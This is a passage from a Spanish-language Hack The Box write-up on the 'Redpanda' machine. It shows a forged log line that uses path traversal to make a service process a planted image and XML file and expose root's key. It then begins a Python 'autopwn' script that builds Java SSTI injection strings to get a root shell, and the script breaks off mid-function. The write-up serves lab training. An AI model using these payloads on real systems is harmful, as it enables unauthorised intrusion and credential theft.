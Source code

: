 Ahora debemos subir ambos archivos `pwned.jpg` `pwned_creds.xml` a nuestro directorio de trabajo `/tmp/.privesc`

Por último, como el paso `2` y `3`, creamos un log con el correcto formato y que otra vez realize **Path Traversal** a nuestro archivo `.jpg`

> Nombre : redpanda.log (importante que el código sea 200 para que lo registre como petición exitosa)

```text
200||ip||user_agent||/../../../../../../tmp/.privesc/pwned.jpg
```

> Tengamos en cuenta que podemos modificar el archivo _/opt/panda_search/redpanda.log_ gracias a que somos parte del grupo **logs**
{: .prompt-info}

Ahora solo remplazamos este log por el original, esperamos unos minutos a que se procese y al visualizar nuestro archivo `pwned_creds.xml` veremos la llave del usuario `root`

Para automatizar el proceso hice un autopwn en `python` que realiza todo lo mencionado anteriormente para obtener una shell como `root`:

```python
import argparse
import requests                 # pip3 install requests
import shlex
import signal
import subprocess
import sys
import time

from bs4 import BeautifulSoup   # pip3 install BeautifulSoup4
from pwn import *               # pip3 install pwntools

# Autopwn Redpanda HTB machine
# ----------------------------
# author : Marss
# date : Sep 21, 2022

# ctrl + c
def signal_handler(signum, frame):
    sys.exit('\n[!] Interrupted.')

signal.signal(signal.SIGINT, signal_handler)

# global variables
redpanda_ip = '10.10.11.170'
pwned_jpg = 'pwned.jpg'
pwned_xml = 'pwned_creds.xml'
pwned_log = 'redpanda.log'
share_server = 'share_server.sh'
workstation = '/tmp/.privesc'

# create SSTI inyection
def create_inyection(command):
    command_convertion = ''
    position = 0
    
    for character in command:     
        character_value = ord(character) # 97 = ord('a')
        java_convertion = f'T(java.lang.Character).toString({character_value})'

        # convertion by position (brackets)
        if position == 0:
            command_convertion += java_convertion + '.concat('
        elif position < len(command) - 1: 
```